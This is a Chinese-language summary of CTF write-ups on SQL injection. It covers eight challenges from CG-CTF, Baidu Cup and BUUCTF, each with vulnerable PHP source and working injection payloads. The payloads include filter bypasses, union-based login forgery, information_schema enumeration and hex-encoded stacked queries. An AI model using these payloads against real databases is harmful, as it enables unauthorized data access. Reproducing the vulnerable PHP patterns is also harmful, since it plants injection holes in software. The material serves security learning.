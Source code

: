 # sql注入做题总结

### 1.CG-CTF:MYSQL
```php
<?php
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```
    wp：精度问题，id=1024.1得到flag
    
### 2.CG-CTF:SQL注入1
```php
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
?>
```
    wp:直接构造and 1 = 1的结构，注意需要替代空格
    user=admin')/**/and/**/1=1#&pass=123
    
### 3.CG-CTF:SQLInjection
```php
<?php
function clean($str){
  if(get_magic_quotes_gpc()){
    $str=stripslashes($str);
  }
  return htmlentities($str, ENT_QUOTES);
}
$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''   .$password.'\';';
?>
```
    wp:clean函数将’和“过滤了所以重点就是将username后面的'转义
    payload为?username=admin \&password=or 1=1#
    这样构造的语句就成了select * from users where name=' admin \' and pass=' or 1=1#';
    也就是把name字段变成了 admin ' and pass=
    整个语句最后理解为select * from users where name=***** or 1=1;
    这样不管查询了什么名称，都是为真的语句。也就是把数据表中的所有数据全部查出
    
### 4.CG-CTF:SQL注入2

```php
<?php
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```

    wp:没有任何过滤，sql语句的用法是将pw从表ctf中取出，在mysql中，当你使用了union语句，而联合查询前的语句返回空，
    则后面的语句的结果就会等于前面字段。
    如select pw from ctf where name='' union select '值';
    那么返回的结果为：pw=值；
    所以payload:user='union select "md(str)"--+&pass=str
    
### 5.百度杯九月场：SQL

    题目为int型注入，过滤了or和and和select，可以使用<>过滤
    payload:id=o<>rder by 3   知道字段为3
    id=union sele<>ct 1,schema_name,3 from info<>rmaton_schema.schemata得到数据库名sqli
    id=union sel<>ect 1,table_name,3 from info<>rmation.tables where table_schema='sqli' 得到表info
    id=union sele<>ct 1,column_name,3 from info<>rmation.columns where table_name='info'得到字段flAg_T5ZNdrm
    id=union sel<>ect 1,flAg_T5ZNdrm,3 from sqli.info得到flag{6b453f35-bc6b-41a4-852c-75a40b003bd1}

### 6.百度杯九月场：SQLI
    
    这题是逗号过滤
    输入 union select 1,2 %23时回显 1'union select 1猜测为逗号过滤，使用join绕过过滤
    join语句:
       select 字段1，字段2 from 表名 where id=xxx union select * from (select 1) a join (select 2) b；
    多少个字段就select多少个，这题通过order by得知查询了2个字段，所以有2个select。
    a和b分别为select 1 和select 2的别名
    若前面id为-1，则查询结果中为空，则显示union后面的数据
    payload:id=-1' union select * from (select 1) a join (select 2) b %23
    回显2则可以在2处插入查询语句。后略
### 7.BUUCTF：[强网杯 2019]随便注
```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
    由于过滤了很多查询语句，不过，可以使用16进制绕过
    先set @a=0x------ 
    然后使用prepare将@a设置为sql语句，再使用execute [名字]来执行

    wp:由于select被过滤，所以需要使用堆叠注入
    1';show databases;# 得到数据库supersqli
    1';show tables from supersqli; # 得到表1919810931114514
    1';show column from `1919810931114514`;# 得知只有flag一个字段
    构造语句select flag from `1919810931114514`将其转为16进制得到73656C65637420666C61672066726F6D20603139313938313039333131313435313460
    所以最终payload：
    inject=1';Set @a=0x73656C65637420666C61672066726F6D20603139313938313039333131313435313460;prepare test from @a;execute test;#
    
##### 注意：
    语句需要一次执行，如果分为set和prepare和execute分次发包的话无法执行。不知道为啥= =
    使用set会显示strstr过滤，但是strstr是严格区分大小写的，Set绕过，stristr为不区分大小写。
    
### 8.BUUCTF：[SUCTF 2019]EasySQL

    SQL语句为：select $_POST[query] || flag from flag 完全猜不到
    ||起到or的作用
    语句为：select post的数据 or flag from flag;
    payload：*,1
